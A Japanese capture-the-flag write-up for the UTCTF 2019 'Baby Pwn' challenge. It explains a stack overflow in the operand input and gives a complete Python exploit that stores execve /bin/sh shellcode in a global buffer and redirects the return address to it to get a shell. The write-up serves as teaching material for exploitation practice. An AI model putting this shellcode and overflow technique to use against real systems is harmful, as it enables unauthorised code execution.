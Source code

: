 # [pwn 650pts] Baby Pwn - UTCTF
64ビットバイナリですが，いろいろ無効です．
```
$ checksec babypwn 
[*] '/home/ptr/writeups/2019/UTCTF_2019/babypwn/babypwn'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```
IDAで解析しましょう．

まずグローバル変数nameに名前を入力できます．

次に演算子とオペランドを入力すると計算結果を出力してくれます．
ここで，オペランドの入力にスタックオーバーフロー脆弱性が存在します．
ということでnameにシェルコードを入れてリターンアドレスをnameのアドレスに書き換えればシェルが奪えます．

ただし，オーバーフロー時に演算子を破壊すると，終了前の演算子チェックで終了してしまうので，演算子の文字は破壊しないように注意しましょう．

```python
from ptrlib import *

elf = ELF("./babypwn")
shellcode = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"

shellcode = "\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x48\x8d\x42\x3b\x0f\x05"

sock = Process("stdbuf -i 0 -o 0 ./babypwn".split())
#sock = Socket("stack.overflow.fail", 9000)

payload = b"+" * 0x90
payload += p64(elf.symbol('name')) * 8

sock.recvuntil("name?\n")
sock.sendline(shellcode)
sock.sendline("+")
sock.sendline("1")
sock.sendline(payload)

sock.interactive()
```

# 感想
初心者向けのオーバーフロー問題ですね．
